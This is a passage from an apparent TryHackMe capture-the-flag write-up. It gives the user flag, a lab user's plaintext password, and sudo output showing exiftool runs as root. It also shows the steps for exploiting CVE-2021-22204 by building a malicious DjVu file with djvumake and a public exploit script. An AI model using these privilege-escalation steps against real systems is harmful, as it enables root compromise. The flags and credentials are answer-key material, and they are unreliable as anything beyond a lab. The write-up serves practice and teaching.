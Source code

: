 > 1.9. <em>What is the user.txt flag??</em><br><a id='1.9'></a>
>> <strong><code>thm{c5fc72c48759318c78ec88a786d7c213da05f0ce}</code></strong><br>
<p></p>

<p><code>stux</code> : <code>p4ssw0rdhack3d!123</code></p>

```bash
www-data@ubuntu:/home/stux$ su stux
Password: 
stux@ubuntu:~$ pwd
/home/stux
stux@ubuntu:~$ cat user.txt
thm{c5fc72c48759318c78ec88a786d7c213da05f0ce}
stux@ubuntu:~$ 
```

<br>

> 1.10. <em>What is the CVE number for the vulnerability affecting the binary assigned to the system user? Answer format: CVE-0000-0000</em><br><a id='1.10'></a>
>> <strong><code>CVE-2021-22204</code></strong><br>
<p></p>

<p><code>stux</code> : <code>p4ssw0rdhack3d!123</code></p>

```bash
stux@ubuntu:~$ sudo -l
Matching Defaults entries for stux on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User stux may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/local/bin/exiftool
stux@ubuntu:~$ 
```

![image](https://github.com/user-attachments/assets/87dbeb7b-3bd9-49f0-b28b-4eccdc909c9c)


<br>

> 1.11. <em>What is the utility used to create the PoC file?</em><br><a id='1.11'></a>
>> <strong><code>djvumake</code></strong><br>
<p></p>


```bash
:~# git clone https://github.com/convisolabs/CVE-2021-22204-exiftool.git
...
:~/CVE-2021-22204-exiftool# apt install djulibre-bin
...
:~/CVE-2021-22204-exiftool# bzz payload payload.bzz
:~/CVE-2021-22204-exiftool# djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
:~/CVE-2021-22204-exiftool# 
```

```bash
:~/CVE-2021-22204-exiftool# python3 exploit.py
    1 image files updated
```
